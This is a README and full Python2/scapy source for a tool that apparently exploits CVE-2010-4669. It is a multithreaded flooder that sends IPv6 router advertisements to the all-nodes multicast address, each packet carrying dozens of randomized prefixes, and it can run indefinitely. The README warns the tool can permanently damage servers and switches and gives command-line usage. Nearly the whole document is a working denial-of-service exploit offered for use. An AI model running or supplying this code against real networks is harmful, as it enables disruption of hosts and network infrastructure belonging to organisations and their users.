 INFO
----

    # rauok
    This tool exploits CVE-2010-4669 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-4669)
    Be careful when testing, especially on older (read: coporate) networks. Very capable of permanently damaging servers / switches.

    # Usage
    **usage:** ./main.py interface thread-count packet-count

    # Dependancies
      -python2
      -scapy
      -root

EXP
---

    #! /usr/bin/python2
    from scapy.all import * #required for packet crafting
    import random   #generates mac, ipv6 address
    import threading #for multithreading
    import sys

    try:
        print sys.argv[3] #check if all arguments have been supplied
    except:
        print 'usage:',sys.argv[0],' interface thread-count packet-oount' #fail if not
        sys.exit(0)

    class RA_Flooder (threading.Thread): #worker class for threading
        def __init__(self, counter=0):
            threading.Thread.__init__(self)
            self.iface = sys.argv[1]
            self.counter = counter

        def prefix_pack(self): #build the actual packet
            self.pkt = ICMPv6NDOptPrefixInfo()
            self.pkt.prefixlen = 64
            #self.pkt.prefix = "cc5f::"          #use for broadcast address instead of random prefix
            self.pkt.prefix = self.prefix_rand() #randomize prefix
            #self.pkt.show() #debug
            return self.pkt

        def ipv6_rand(self): #generate random ipv6 address
            self.rand = ':'.join('{:x}'.format(random.randint(0,2**16 - 1)) for i in range(4))
            return 'fe80::' + self.rand

        def prefix_rand(self): #generate random ipv6 prefix
            self.pre_rand = ':'.join('{:x}'.format(random.randint(0,2**16 - 1)) for i in range(2))
            return '2012:' + self.pre_rand + ':b304::'

        def mac_rand(self): #generate random mac address
            self.mac = ':'.join('{:x}'.format(random.randint(0,2**8 - 1)) for i in range(6))
            return str(self.mac)

        def packet_gen(self):
            #build the actual packet in scapy
            self.a = IPv6() #set as an IPv6 packet
            self.a.dst = "ff02::1" #dst is set to broadcast
            self.a.src = self.ipv6_rand() #the source is randomized
            self.a.nh = 58

            self.b = ICMPv6ND_RA() #set as router advertisment
            self.b.routerlifetime = 0

            self.c = ICMPv6NDOptSrcLLAddr()
            self.c.lladdr = self.mac_rand()

            self.d = ICMPv6NDOptMTU()
            self.e = ICMPv6NDOptPrefixInfo()
            self.e.prefixlen = 64
            #self.e.prefix = self.prefix_rand()

            self.pk = self.a/self.b/self.c/self.d
            for i in range(44):
                self.pk = self.pk/self.prefix_pack()
            return self.pk

        def run(self):
            self.s = conf.L3socket(iface=self.iface) #use correct interface
            if self.counter is 0: #if the counter is zero, continue forever
                while True:
                    self.pkt = self.packet_gen() #create a packet as fast as possible, sned it
                    self.s.send(self.pkt)
            else: #otherwise, use until packet count (per thread) has been met
                for x in range(self.counter):
                    self.pkt = self.packet_gen()
                    self.s.send(self.pkt)
            print '[*] Finished sending'

    threadLock = threading.Lock()
    threads = [] #store all threads
    for x in range(0, int(sys.argv[2])): #create threads
        t = RA_Flooder(int(sys.argv[3])) #create thread with correct variables
        threads.append(t) #add thread to array
    for t in threads:
        t.start() #start thread
        print '[+] Thread started ' + str(x)
    print 'All threads started'